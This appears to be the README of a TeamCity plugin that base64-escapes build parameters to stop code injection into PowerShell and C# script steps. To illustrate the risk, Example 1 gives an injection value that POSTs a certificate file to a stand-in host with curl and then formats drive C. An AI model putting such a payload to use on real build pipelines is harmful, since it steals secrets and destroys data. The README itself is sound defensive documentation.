 ## What?
TeamCity plugin to escape build parameters for safe embed into script steps.

## Why?
To prevent people from inserting malicious code into parameters when triggering a build.

**Example 1**: take the following PowerShell script:
```
Write-Host "%MESSAGE_OF_THE_DAY%!"
```
a bad actor with access to build customisation (but not to the build agents) could set `MESSAGE_OF_THE_DAY` to:
```
goodbye >:)"
&curl -d "@secret.crt" -X POST https://badurl.com
&format C:
"
```
(a little contrived, but you get the point!)

Beyond this, an escaped parameter provides a safety net so you don't need to worry about the contents of the original string.
**Example 2**: consider this C# snippet:
```
int seconds = ElapsedTime.TotalSeconds;
Console.WriteLine($"Completed task: %MY_TASK_NAME% in {seconds}s");
```
What if `MY_TASK_NAME` is `MegaTexture{Landscape.tga}`? The script won't even compile.

## How?
![secret_ingredient_is_base64](/images/how.png)

Rather than inserting configuration parameters directly into code, the plugin provides a short snippet in the relevant langauge that decodes a base64 representation of the variable. This way, there's no risk of customised parameters being used as a vector for code injection.

Going back to **Example 1** above, instead of writing this vulnerable script in the PowerShell runner:
```
Write-Host "%MESSAGE_OF_THE_DAY%!"
```
we'd use:
```
$escaped = %ESCAPED_POWERSHELL_MESSAGE_OF_THE_DAY%
Write-Host "$escaped!"
```
which the plugin expands to:
```
$escaped = ([Text.Encoding]::Utf8.GetString([Convert]::FromBase64String("bXlfY29vbF92YWx1ZQ==")))
Write-Host "$escaped!"
```
And for the C# in **example 2**, this code:
```
int seconds = ElapsedTime.TotalSeconds;
Console.WriteLine($"Completed task: %MY_TASK_NAME% in {seconds}s");
```
becomes:
```
int seconds = ElapsedTime.TotalSeconds;
string escaped = %ESCAPED_CSHARP_MY_TASK_NAME%
Console.WriteLine($"Completed task: {escaped} in {seconds}s");
```
which the plugin expands to:
```
int seconds = ElapsedTime.TotalSeconds;
string escaped = Encoding.UTF8.GetString(Convert.FromBase64String("TWVnYVRleHR1cmV7TGFuZHNjYXBlLnRnYX0="));
Console.WriteLine($"Completed task: {escaped} in {seconds}s");
```